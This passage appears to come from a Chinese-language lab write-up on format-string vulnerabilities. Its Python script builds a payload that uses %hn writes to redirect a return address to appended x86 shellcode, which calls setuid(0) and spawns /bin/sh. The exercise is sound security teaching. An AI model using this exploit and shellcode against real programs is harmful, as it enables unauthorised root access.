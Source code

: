 测试长度应为17.

## 4.3 shellcode注入

task2_1.py

```python
#!/usr/bin/python3
# task2_1 : shellcode injection
import sys


local_shellcode= (
  "\x31\xc0\x31\xdb\xb0\xd5\xcd\x80"
  "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50"
  "\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
).encode('latin-1')

# ebp(frame pointer)+4 = return address
addr = 0xffffcee8 + 4

payload =  (addr).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
payload += (addr+2).to_bytes(4,byteorder='little')

# the start address of the buffer + 95 = the address of the shellcode
# 0xffffcf04 + 95 = 0xffffcf63
target = 0xffffcf63
len1 = 0xcf63 - 4 * 3 - 15 * 8
len2 = 0xffff - 0xcf63
s = "%.8x" * 15 + "%." + str(len1) + "x" + "%hn" + "%." + str(len2) + "x" + "%hn" + "\n"
payload += (s).encode('latin-1')
# output the length of payload to get the offset
print(len(payload))
payload += local_shellcode

# Write the payload to badfile
with open("input", "wb") as f:
  f.write(payload)
```

运行结果：

![image-20230520000348446](assets/image-20230520000348446.png)
